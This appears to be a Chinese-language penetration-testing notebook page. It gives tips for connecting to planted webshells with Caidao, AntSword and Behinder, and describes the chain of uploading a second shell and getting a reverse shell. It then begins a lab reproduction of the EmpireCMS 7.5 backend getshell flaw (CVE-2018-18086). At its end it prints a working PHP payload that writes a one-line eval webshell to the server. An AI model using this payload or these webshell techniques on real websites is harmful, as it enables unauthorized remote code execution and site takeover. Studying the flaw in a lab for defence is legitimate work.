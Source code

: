 ## 连接webshell
### 菜刀连接

第一次使用菜刀没有连接上，但是webshell能访问。

### 蚁剑连接

蚁剑连接编码器选择base64，解码器也选base64。这样成功率高些

### 冰蝎连接

刚开始很奇怪，冰蝎怎么连接都连不上，然后多下了几个版本的php。开始使用冰蝎连接，nice连上了。

验证了一下 php5.2版本的好像连接不上。
有时候解析失败了还是可以连接。

还没想好冰蝎的马怎么写进入。只会写一句话的。目前的方式是使用菜刀小马然后上传冰蝎马，然后反弹shell。

绕过的坑，sql执行的权限要高，否则不能写入shell文件。知道网站的路径。

和php的版本也有关系，版本在7.3以上菜刀就连接不上了。使用蚁剑可以连接。


## 参考连接

这里面讲解了漏洞的出现的方式
https://blog.catgames.cn/post/112.html
https://www.cnblogs.com/yuzly/archive/2004/01/13/11353929.html


## 帝国CMS(EmpireCMS) v7.5后台getshell分析(CVE-2018-18086)

### 漏洞描述

EmpireCMS 7.5版本及之前版本在后台备份数据库时,未对数据库表名做验证,通过修改数据库表名可以实现任意代码执行。EmpireCMS7.5版本中的/e/class/moddofun.php文件的”LoadInMod”函数存在安全漏洞,攻击者可利用该漏洞上传任意文件。

### 影响版本

EmpireCMS<=7.5

### 环境搭建

沿用phpstudy的部署环境

### 复现过程

进入到后台-系统-数据表雨系统模型-管理数据表-导入数据模型


![20201125092811](https://raw.githubusercontent.com/Hatcat123/GraphicBed/master/Img2/20201125092811.png)


上传木马模型
```
<?php file_put_contents("caidao.php","<?php @eval(\$_POST[cmd]); ?>");?>
```
